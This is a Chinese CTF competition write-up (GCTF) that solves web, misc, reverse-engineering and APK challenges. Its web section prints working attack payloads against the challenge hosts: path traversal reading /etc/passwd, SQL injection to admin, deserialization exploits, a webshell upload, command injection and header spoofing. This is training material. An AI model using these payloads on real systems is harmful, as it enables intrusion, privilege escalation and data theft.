





> write by DUBHE

# Web

## spring-css

恩。。。之前撸站的时候遇到过，spring任意文件读取 

https://github.com/ilmila/springcss-cve-2014-3625/blob/master/stealfile.sh

Payload:

 http://218.2.197.232:18015/spring-css/resources/file:/etc/passwd 
可以看到flag用户有个/etc/flag，读出来就好

http://218.2.197.232:18015/spring-css/resources/file:/etc/flag

## 越权注入

页面源码里有个

```
<!--
2015.10.16
防越权改造，当uid=0且role=admin时显示管理员页面。
 -->    
```

update注入，注入点在uid，post如下数据即可

因为限制不能使用引号，uid为boolean型，所以无需引号，role的值直接使用十六进制

```
name=123123&email=f997552762103d11%40gctf.cn&phone=123123&mobile=&address=%E4%B8%AD%E5%9B%BD&birth=11111111&gender=%E9%9A%BE&uid=0, role =0x61646d696e
```

## 条件竞争

```
//重置时清理用户信息
if($_SERVER["REQUEST_METHOD"] === "POST" && $_GET['method']==="reset" && isset($_POST['password']) ){
    $stmt = $mysqli->prepare("DELETE FROM gctf09.`user` where name=?");
    $stmt->bind_param("s",$user);
    $stmt->execute();
    $stmt = $mysqli->prepare("DELETE FROM gctf09.`priv` where name=?");
    $stmt->bind_param("s",$user);
    $stmt->execute();
    $stmt = $mysqli->prepare("INSERT INTO gctf09.`user` (name,pass) VALUES (?,?)");
    $stmt->bind_param("ss",$user,md5($_POST['password']));
    $stmt->execute();
    $stmt->close();
    //判断用户权限时会查询priv表，如果为不为TRUE则是管理员权限
    $stmt = $mysqli->prepare("INSERT INTO gctf09.`priv` (name,notadmin) VALUES (?,TRUE)");
    $stmt->bind_param("s",$user);
    $stmt->execute();
    $stmt->close();
    $mysqli->close();
    die("修改成功");
}
$mysqli->close();
```

重置用户信息时会删除原理的用户表和权限表，然后重新插入

登录时判断用户权限时会查询priv表，如果为不为TRUE则是管理员权限

数据库操作没有放在一个事务里，存在条件竞争问题

Burp开两个爆破，一个使用同一个SESSION循环reset，一个循环login即可

服务器好像GG了。。。就不复现了。。。

## 读文件

后台处理的时候去掉了./

```
view-source:http://218.2.197.232:18008/a/down.php?p=..//1.txt
```

和 `p=./1.txt`效果相同

后台WAF拦截了flag关键字，所以用./绕过对flag的过滤即可，flag.php在1.txt的上层目录所以Payload如下

Payload:

```
view-source:http://218.2.197.232:18008/a/down.php?p=...//fl./ag.php
```

## Web综合

SVN源码泄露，但是需要使用wc.db下载泄露的文件

使用如下命令提取wc.db中的源码路径

```
sqlite3 wc.db 'select local_relpath, ".svn/pristine/" || substr(checksum,7,2) || "/" || substr(checksum,7) || ".svn-base" as alpha from NODES;' 
```

效果如下

```
.htaccess|.svn/pristine/90/9058014c906d037e91773d656c63e95115cc4937.svn-base
README.txt|.svn/pristine/d2/d2a3892fb99ec2813c31b3cd0cf0a40d5294ed28.svn-base
verdana.ttf|.svn/pristine/6f/6f337486783479802cc4c4ea9ff50c46551dae7f.svn-base
index.php|.svn/pristine/8e/8e091f40552f7820ae68a256402474df0a0eef39.svn-base
settings.inc.php|.svn/pristine/c6/c63308801a9ec3b0c1aea96b061c00b1666adebb.svn-base
...
```

然后写个脚本下载下来即可

在settings.inc.php中发现后台密码

```
/**********************************************************************
  Password for Admin Board
***********************************************************************/

define('DES_PASS', 'dcea978f2c1');
```

登录后台选择一个目录上传webshell，123.gif.php

然后在后台HTTP Upload Log里可以看到上传之后的文件路径

flag路径：`/GCTF/07/fla9.php`

主办方能不能把这站的XSS修了。。。我真怕电脑被哪个大佬撸了

## Java序列化

随便提交一个username，页面提示

`name not admin or id not 1`

发现参数为Java序列化的字符串

根据参数中base64解码后的类名及变量类型，本地构造Java类如下

```
package com.ctf.cn;

import java.io.Serializable;

/**
 * Created by dlive on 2017/6/10.
 */
public class User implements Serializable{
    private static final long serialVersionUID = 66662333L;

    public String name="admin";

    public Integer id= 1;

}
```

```
import com.ctf.cn.User;

import java.io.FileOutputStream;
import java.io.ObjectOutputStream;

public class Main {

    public static void main(String[] args) {
        try
        {
            User si = new User();
            FileOutputStream fos = new FileOutputStream("/Users/dlive/Temp/GCTF/java.txt");
            ObjectOutputStream oos = new ObjectOutputStream(fos);
            oos.writeObject(si);
            oos.close();
            fos.close();
        }
        catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

运行得到序列化后的字符串，提交即可拿到flag

其中serialVersionUID可以通过构造错误的序列化字符串，通过页面报错信息拿到

```
java.io.InvalidClassException: com.ctf.cn.User; local class incompatible: stream classdesc serialVersionUID = 33107901, local class serialVersionUID = 66662333
```

## 变态验证码怎么破

页面提示用户名为ADMIN，同时题目给了password.txt文件

验证码可以通过删除Cookie并提交空验证码绕过（验证码存在SESSION中，后台校验验证码时未判断是否存在SESSION)

数据包如下

```
POST /index.php HTTP/1.1
Host: 218.2.197.232:18003
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://218.2.197.232:18003/
X-Forwarded-For: 127.0.0.1
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 56

user=ADMIN&password=123&vcode=&button=%E6%8F%90%E4%BA%A4
```

## 热身题

```
http://218.2.197.232:18001/robots.txt
```

挨个访问一下, Flag在

```
http://218.2.197.232:18001/rob0t.php
```

## PHP序列化

payload：

```
?src=|O:4:"TOPC":3:{s:3:"obj";s:3:"asd";s:4:"attr";O:4:"TOPB":2:{s:3:"obj";N;s:4:"attr";s:127:"O:4:"TOPA":4:{s:5:"token";N;s:6:"ticket";R:2;s:8:"username";s:17:"aaaaaaaaaaaaaaaaa";s:8:"password";s:18:"bbbbbbbbbbbbbbbbbb";}";}}
```

flag:

```
key is:{JJj56M3e26Avvv6gnUZ3S4WZ}
```


题目分析：

首先题目首页中有下面内容：

```
ini_set('session.serialize_handler', 'php_serialize');
header("content-type;text/html;charset=utf-8");
session_start();
if(isset($_GET['src'])){
    $_SESSION['src'] = $_GET['src'];
    highlight_file(__FILE__);
    print_r($_SESSION['src']);
}
```

query.php~中得到类：

```
//query.php 閮ㄥ垎浠ｇ爜
session_start();
header('Look me: edit by vim ~0~')
//......
class TOPA{
	public $token;
	public $ticket;
	public $username;
	public $password;
	function login(){
		//if($this->username == $USERNAME && $this->password == $PASSWORD){ //鎶辨瓑
		$this->username =='aaaaaaaaaaaaaaaaa' && $this->password == 'bbbbbbbbbbbbbbbbbb'){
			return 'key is:{'.$this->token.'}';
		}
	}
}
class TOPB{
	public $obj;
	public $attr;
	function __construct(){
		$this->attr = null;
		$this->obj = null;
	}
	function __toString(){
		$this->obj = unserialize($this->attr);
		$this->obj->token = $FLAG;
		if($this->obj->token === $this->obj->ticket){
		   return (string)$this->obj;
		}
	}
}
class TOPC{
	public $obj;
	public $attr;
	function __wakeup(){
		$this->attr = null;
		$this->obj = null;
	}
	function __destruct(){
		echo $this->attr;
	}
}
*/
```

其中session.serialize_handler为php_serialize说明session保存时是以php序列化的方式来保存的，举个例子：

```
$_SESSION['id'] = '123'
=>
id|s:3:"123";
```

其对象序列化后的结果就是```s:3:"123"```

这道题的原理大概是构造一个类似于```|O:3:"123":0{}```的字符串：这样

保存的内容应该是```s:14:"|O:3:"123":0{}"```，此时如果session.serialize_handler的值为php(默认值)的话。那么这段字符串将会被反序列化解析成键值为```s:14:"```内容为```|O:3:"123":0{}" => (object)123```，即将字符串内的内容反序列化了。

解题思路大概如下：

1. 这题中我们构造一个TOPC，在析构的时候则会调用```echo $this->attr;```；
2. 将attr赋值为TOPB对象，在echo TOPB的时候会自动调用\_\_tostring魔术方法
3. 在__tostring中会调用```unserialize($this->attr)```,因为后面用到token和ticket，所以显然时TOPA对象。后面判断需要```$this->obj->token === $this->obj->ticket```,所以在序列化的时候进行指针引用使```$a->ticket = &$a->token;```，即可绕过判断。
4. 至于为什么```(string)$this->obj```会输出flag，后台写的login可能是\_\_tostring吧。
5. 其中反序列化字符串中会有一个\_\_wakeup()函数清空里面的参数，我问可以通过一个cve来绕过：CVE-2016-7124。将Object中表示数量的字段改成比实际字段大的值即可绕过wakeup函数。

最后的生成代码：

```
$a = new TOPA();
$a->username='aaaaaaaaaaaaaaaaa';
$a->password='bbbbbbbbbbbbbbbbbb';
$a->ticket = &$a->token;
$b = new TOPB();
$b->attr=serialize($a);
$obj = new TOPC('asd',$b);
print_r(serialize($obj));
```


## RCE绕过

题目是个命令执行的接口，输入的内容会插入在```curlflag.php```之中，效果为```curl(我们输入的string)flag.php```

但是过滤了很多字符 有空格 ' ' 点'.'

题目目的是为了读flag.php中的内容，所以找个办法绕过空格，绕过前面的curl命令。

wp为：%0a换一行绕过curl，小于号'<'作为命令参数的输入，绕过空格

payoad:```%0acat<```


## Forbidden

访问过去明明是个200偏要显示403 Forbidden [WTF?]

看眼源码就明了了：

```
<!--只允许本机访问。 -->
```

修改后绕过

```
x-forworded-for: localhost
```

...

竟然还有下一关。

```
<!--只能通过域名访问 -->
```

好吧你开心就好：

```
Host: www.topsec.com
```


:)

```
<!--只允许从百度跳转到本页面访问。 -->
```

```
Referer: http://www.baidu.com/
```


没完没了了

```
<!--只允许使用ajax访问本页面 -->
```

```
X-Requested-With: XMLHttpRequest
```

```
<!--本站只允许使用IE4访问 -->
```

```
User-Agent: Mozilla/4.0 (compatible; MSIE 4.0; Windows NT 5.1)
```

```
<!--电脑上必须安装有.NET8 -->
```

```
User-Agent: Mozilla/4.0 (compatible; MSIE 4.0; Windows NT 5.1;.NET CLR 8.0.50727;)
```

```
<!--本站只允许德国用户访问。 -->
```

```
Accept-Language: de-DE;q=0.8
```


(╯‵□′)╯︵┻━┻

```
<!--没有登录！ -->
```

看到这里已经让我重新认识了http header

服务器返回

```
Set-Cookie: login=4e6a59324d545a6a4e7a4d324e513d3d
```

超级脑洞：

```
4e6a59324d545a6a4e7a4d324e513d3d
	hex to characters =>
NjY2MTZjNzM2NQ==
	base64decode =>
66616c7365
	hex to characters =>
false
```

```
true
	characters to hex =>
74727565
	base64encode =>
NzQ3Mjc1NjU=
	characters to hex =>
4e7a51334d6a63314e6a553d
```

```
cookie: login=4e7a51334d6a63314e6a553d
```


(ˉ▽ˉ；)...

```
<!--GCTF{Dt24FbREwYJu7P8ekQHEFknK} -->
```


# MISC

## stage1

stegsolve查看每一层
可以发现里面的二维码
截图下来之后ps反相
可以进行二维码的扫描

扫描出来是一串十六进制字符串

03F30D0AB6266A576300000000000000000100000040000000730D0000006400008400005A00006401005328020000006300000000030000000800000043000000734E0000006401006402006403006404006405006406006405006407006708007D00006408007D0100781E007C0000445D16007D02007C01007400007C0200830100377D0100712B00577C010047486400005328090000004E6941000000696C000000697000000069680000006961000000694C0000006962000000740000000028010000007403000000636872280300000074030000007374727404000000666C6167740100000069280000000028000000007307000000746573742E7079520300000001000000730A00000000011E0106010D0114014E280100000052030000002800000000280000000028000000007307000000746573742E707974080000003C6D6F64756C653E010000007300000000

```
def save(filename, contents):
    fh = open(filename, 'w')
    fh.write(contents)
    fh.close()
a = "03F30D0AB6266A576300000000000000000100000040000000730D0000006400008400005A00006401005328020000006300000000030000000800000043000000734E0000006401006402006403006404006405006406006405006407006708007D00006408007D0100781E007C0000445D16007D02007C01007400007C0200830100377D0100712B00577C010047486400005328090000004E6941000000696C000000697000000069680000006961000000694C0000006962000000740000000028010000007403000000636872280300000074030000007374727404000000666C6167740100000069280000000028000000007307000000746573742E7079520300000001000000730A00000000011E0106010D0114014E280100000052030000002800000000280000000028000000007307000000746573742E707974080000003C6D6F64756C653E010000007300000000"
b = a.decode('hex')
print b
save('test.pyc', b)
```

写一个python脚本，把十六进制字符串保存为文件

文件头是03F30D0A
可以看出是pyc的文件头里面的Magic域 代表python版本
接下来使用工具进行pyc的反编译
https://tool.lu/pyc/

得到源代码

```
def flag():
    str = [
        65,
        108,
        112,
        104,
        97,
        76,
        97,
        98]
    flag = ''
    for i in str:
        flag += chr(i)
    
    print flag
#AlphaLab
```

## test.pyc

得到一个无法反编译有错误的pyc

还是用之前的网站https://tool.lu/pyc/

可以得到flag1和flag2的函数

flag3的解析是有问题的，说明肯定哪里出错了

从pyc文件里面是可以看出来flag3里出现了base64decode的

所以就改flag3 看了一下 好像多了4个没有意义的字节 尝试删掉，然后修改前面的总字节数


```
73 73 00 00 00 00 00 00 00 
```

改为

```
73 6F 00 00 00
```

就可以反汇编了
看代码的意思就是把字符串反向 然后base64解密

最后附上代码：

```python
str = '=cWbihGfyMzNllzZ'
str = str+'0cjZzMW''N5cTM4Y''jYygTOy''cmNycWNyYmM1Ujf'
print str
import base64
def flag1():
    code = str[::-3]
    #print code
    result = ''
    for i in code:
        ss = ord(i) - 1
        result += chr(ss)
    print result[::-1]
def flag2():
    code = str[::-2]
    result = ''
    for i in code:
        ss = ord(i) - 1
        result += chr(ss)
    print result[::-2]

def flag3():
    code = str[::-1]
    print code
    code = base64.b64decode(code)
    result = ''
    for i in code:
        ss = ord(i) - 1
        result += chr(ss)

    print result[::-1]


flag3()
```

## reverseMe

二进制查看程序，看起来一堆乱码，一脸懵逼，感谢学弟的提示才发现是整个文件倒过来写的。
写脚本二进制读文件，讲字符串翻转以后输出即可。

```python
#-*- coding : utf-8 -*-

f = open('reverseMe','rb')
data = f.read()
size = f.tell()
f.close()
print data,len(data)
print size
i = 0

data = list(data)

while i < size/2:
	t = data[i]
	data[i] = data[size-1-i]
	data[size-1-i] = t
	i+=1

p = open('output','wb')

data = ''.join(data)
p.write(data)
p.close()
```

最后得到的图片也是镜像反转过的，扔到Word里左右反转一下即可



flag{4f7548f93c7bef1dc6a0542cf04e796e}

# REVERSE

## debug.exe

非常简单的一个.net题，程序一开始会生成好一个flag字符串，然后将输入和他做比较，复现flag生成算法即可。

```python
import hashlib

def change(a,b):
	s = [2,3,5,7,11,13,17,19,23,29,31,37,41,43,47,53,59,61,67,71,73,79,83,89,97,101,103,107,109,113]
	return s[a]^b

def flag(a):
	m = hashlib.md5()

	m.update(a)
	s = m.hexdigest().upper()
	print 'flag{'+s+'}'

def convert(A0):
	A2 = ''
	num = 0
	while num < len(A0):
		c = A0[num]
		num2 = 1
		while num2 < 15:
			c = chr(change(num2,ord(c)))
			num2 += 1
		A2 += c
		num += 1
	print A2
	return flag(A2)

print convert('CreateByTenshine')
```

flag ： flag{967DDDFBCD32C1F53527C221D9E40A0B}

## hackme

讲道理这道题还是挺坑的【请出题人告诉我为什么只有十次循环？】

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  printf((unsigned __int64)"Give me the password: ");
  scanf((__int64)"%s", password, (char)argv);
  for ( i = 0; input[i]; ++i )  
    ;
  v20 = i == 22;                                // flag长度为22
  v19 = 10;
  do
  {
    int_value = sub_406D90((__int64)"%s", (__int64)input, v4, v5, v6, v7);
    v5 = (unsigned int)(int_value % 22);
    v16 = int_value % 22;
    v18 = 0;
    v15 = byte_6B4270[(signed __int64)(int_value % 22)];
    v14 = input[int_value % 22];
    v13 = int_value % 22 + 1;
    v17 = 0;
    while ( v17 < v13 )
    {
      ++v17;
      v18 = 0x6D01788D * v18 + 0x3039;
    }
    v4 = (unsigned int)v18;
    v12 = v18 ^ v14;
    if ( v15 != ((unsigned __int8)v18 ^ v14) )
      v20 = 0;
    --v19;                                      // 循环十次
  }
  while ( v19 );
  if ( v20 )
    v11 = printf((unsigned __int64)"Congras\n");
  else
    v11 = printf((unsigned __int64)"Oh no!\n");
  return 0;
}
```

这个题有个问题：做题的时候并没有搞懂为什么输入会传递到了input数组当中？不过这个并不影响后续的分析。

程序的check逻辑是：使用函数固定序列，并模以22作为关键变量进行计算，最终的结果与固定数组进行对比，整个过程都是完全可逆的。一开始没有找到问题的本质，还花了相当的时间去写dump数据的代码，不过也算是get新技能吧

```python
#!/usr/bin/env python
# coding=utf-8

from pwn import *
import os
import time

script = """
values = []
fp = open('dump_result', "w")
gdb.execute("b * 0x40100a")
gdb.execute("continue")

rbp = gdb.parse_and_eval("$rbp")
print(rbp)
gdb.execute("set *(%s)=100" % str(rbp - 0xc))

for i in range(100):
    values.append(int(gdb.parse_and_eval("$eax")))
    gdb.execute("continue")

fp.write(str(values))
fp.close()
#gdb.execute('quit')
"""
open("script.py", "w").write(script)
p = process('./hackme')
gdb.attach(p, "source script.py")
p.sendline('a'*22)
p.interactive()
os.system("rm script.py")
```

其实，解答此题并不需要sub_406D90生成的序列，因为最终的结果都会模以22，所以只需要从0到22的循环就可以得到答案

```
ir = [ 0x5F,0xF2,0x5E,0x8B,0x4E,0x0E,0xA3,0xAA,0xC7,0x93,0x81,0x3D,0x5F,0x74,0xA3,0x09,0x91,0x2B,0x49,0x28,0x93,0x67]

flag = map(ord, '_'*22)
for i in range(22):
	index = i
	#print index
	v15 = ir[index]
	#print hex(v15)
	v13 = index + 1
	v17 = 0
	v18 = 0
	while v17 < v13:
		v18 = (0x6D01788D * v18 + 0x3039) & 0xffffffff
		v17 += 1
	v18 &= 0xff
	flag[index] = v18 ^ v15
	
print ''.join(map(chr,flag))
```

## 密码加密

1. 阅读代码，lib 中的三个 jar 文件，用 jd-gui 之类的即可。
2. jsp 中使用了 `Purview.changePwd(operId, newPassword)` 来修改密码，对应 `jos-i-purview.jar` 中的 `Purview.changePwd` 函数。
3. 加密后密码生成 `encrypt.VarLenEncrypt(clearPwd(newpwd) + "11", 30)`
4. `VarLenEncrypt` 中读取了 `/config/app/encflag` 配置，实际为 `null` 因此给默认值 `0`。
5. 因为 `encflag` 为 `0` 于是生成函数为 `classicVarLenEncrypt(str_crypt_in, str_num)` 而非 AEC_128_CBC。
6. 把整个 `BaseEncrypt` 丢进 `喷气脑子的 IDEA` 加密一下 `admin12345611` str_num 为 30 即可。


# APK

## APK 1

逆向分析程序，找到其中的进行check的函数，单独提取出来，观察到是加了“flag{}”之后进行比对，将中间的字符打出来。



运行结果。



## APK 2

魔改了的 `AndroidManifest.xml`

> 讲道理，你看，选中地方的标识符，确实是 `0x001C0001` 没有任何问题嘛！

然而应该是大端序，而不是如图的小端序，大写的服气，根本看不出来。



------

第二个地方 `StylePoolOffset`，ummmmmmm，其实当 `StyleCount` 为 0 的时候应该忽略的，但是 APKTOOL 还是计算了这个偏移，所以改成 0 就行。



------

最后从正常反编译的 `AndroidManifest.xml` 看到

> \<action android:name="8d6efd232c63b7d2"/\>

就是 FLAG 啦！